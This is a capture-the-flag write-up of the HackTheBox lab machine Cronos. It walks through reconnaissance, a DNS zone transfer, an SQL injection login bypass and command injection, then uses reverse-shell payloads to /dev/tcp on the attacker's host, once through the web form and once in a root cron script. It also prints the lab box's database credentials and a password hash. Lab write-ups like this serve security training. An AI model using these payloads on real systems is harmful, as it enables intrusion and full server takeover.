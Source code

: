 ```yaml
---
title: Cronos
description: Cronos box from HackTheBox write up.
---
```


# Cronos

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 1000 -v 10.10.10.13
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 11:28 EST
Nmap scan report for 10.10.10.13
Host is up (0.037s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 102.81 seconds
           Raw packets sent: 131150 (5.771MB) | Rcvd: 83 (3.636KB)
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Cronos]
└─$ sudo nmap -sC -sV -p22,53,80 10.10.10.13
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-07 11:31 EST
Nmap scan report for 10.10.10.13
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.13 seconds
```

We have only three ports open, SSH, DNS and a web server. Looks like it is an Ubuntu 16 machine and the only service version that looks a bit outdated is the DNS server one.

## Port 80

### Nothing?

Since the web server only shows the default Apache page we can go ahead and try Gobuster:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/07 11:41:23 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 299]
                                               
===============================================================
2022/01/07 11:55:23 Finished
===============================================================
```
Cool, is empty or at least looks like so. 

### Enumerating the domains

Maybe there are virtual hosts in place so let's check the DNS server:
```bash
┌──(kali㉿kali)-[~/Documents/HTB/Cronos]
└─$ nslookup         
> SERVER 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 127.0.0.1
1.0.0.127.in-addr.arpa	name = localhost.
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
>
```
Adding `cronos.htb` to my hosts file and visiting the page again using this domain reveals a new page called cronos.

This is nice but before going any further let's try to perform a zone transfer to check if there are subdomains:
```bash
┌──(kali㉿kali)-[~/Documents/HTB/Cronos]
└─$ dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.17.19-3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 40 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Jan 07 12:18:35 EST 2022
;; XFR size: 7 records (messages 1, bytes 203)
```
There they are, let's add `admin.cronos.htb` and `www.cronos.htb` to the hosts file too.

### `cronos.htb` and `www.cronos.htb`

This two domains show the Cronos page. After looking around a bit nothing interesting here, time to move on.

### `admin.cronos.htb`

In this case we are welcomed by a login form. Trying some typical credentials didn't work but since the page looks hand made maybe SQL injection is our way in.

Using the typical `' OR 1=1 #` as the user and the password worked! We have access now to something called `Net Tool v0.1`.

#### RCE and reverse shell

This `Net Tool v0.1` allow the user to execute the commands `ping` and `traceroute` from the browser. The thing is that the input is not sanitize so if we enter something like `; cat /etc/passwd` the application prints the `/etc/passwd`. We have RCE!

Time to get a reverse shell, this simple payload will do: `; bash -c 'bash -i >& /dev/tcp/10.10.14.28/8080 0>&1'`.

## In the box as `www-data`

After stabilizing the shell is time to search for a privilege scalation vector. First of all, there is a file called `config.php` with the database credentials: `admin:kEjdbRigfBHUREiNSDs` that can be used to retrieve the hashed admin password of the page: `admin:4f5fffa7b2340178a716e3832451e058`.

We can get the users that can login to the system to try the credentials we have:
```bash
www-data@cronos:/var/www/laravel/config$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
```
But sadly this didn't work. At least we can get the user flag under `/home/noulis/user.txt`.

### Getting root

After looking a bit around I found something:
```bash
www-data@cronos:/$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
```
`cron` is executing a script every minute as the `root` user. We can edit that script so adding:
```php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.28/8000 0>&1'");
```
And spinning up a listener will give us a reverse shell as `root`. The flag is under `/root/root.txt`.
